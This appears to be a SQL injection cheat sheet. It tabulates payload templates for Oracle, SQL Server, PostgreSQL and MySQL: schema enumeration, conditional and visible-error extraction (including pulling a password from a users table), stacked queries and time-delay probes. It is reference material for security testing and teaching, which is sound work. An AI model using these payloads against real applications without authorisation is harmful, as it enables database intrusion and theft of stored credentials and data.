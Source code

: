 ## Database Contents

| Database   | Query Statement                                                                                                                        |
| ---------- | -------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | `SELECT * FROM all_tables`<br />Or<br />`SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'`                           |
| Microsoft  | `SELECT * FROM information_schema.tables`<br />Or<br />`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| PostgreSQL | `SELECT * FROM information_schema.tables`<br />Or<br />`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |
| MySQL      | `SELECT * FROM information_schema.tables`<br />Or<br />`SELECT * FROM information_schema.columns WHERE table_name = 'TABLE-NAME-HERE'` |

## Conditional Errors

| Database   | Query Statement                                                                         |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |

## Extracting Data via Visible Error Messages

| Database   | Query Statement                                                               | Response                                                                         |
| ---------- | ----------------------------------------------------------------------------- | -------------------------------------------------------------------------------- |
| Microsoft  | `SELECT 'foo' WHERE 1 = (SELECT 'secret')`                                    | `Conversion failed when converting the varchar value 'secret' to data type int.` |
| PostgreSQL | `SELECT CAST((SELECT password FROM users LIMIT 1) AS int)`                    | `invalid input syntax for integer: "secret"`                                     |
| MySQL      | `SELECT 'foo' WHERE 1=1 AND EXTRACTVALUE(1, CONCAT(0x5c, (SELECT 'secret')))` | `XPATH syntax error: '\secret'`                                                  |

## Batched (or stacked) Queries

| Database   | Query Statement                                                       |
| ---------- | --------------------------------------------------------------------- |
| Oracle     | Does not support batched queries.                                     |
| Microsoft  | `QUERY-1-HERE; QUERY-2-HERE`<br />Or<br />`QUERY-1-HERE QUERY-2-HERE` |
| PostgreSQL | `QUERY-1-HERE; QUERY-2-HERE`                                          |
| MySQL      | `QUERY-1-HERE; QUERY-2-HERE`                                          |

## Time Delays

| Database   | Query Statement                       |
| ---------- | ------------------------------------- |
| Oracle     | `dbms_pipe.receive_message(('a'),10)` |
| Microsoft  | `WAITFOR DELAY '0:0:10'`              |
| PostgreSQL | `SELECT pg_sleep(10)`                 |
| MySQL      | `SELECT SLEEP(10) `                   |
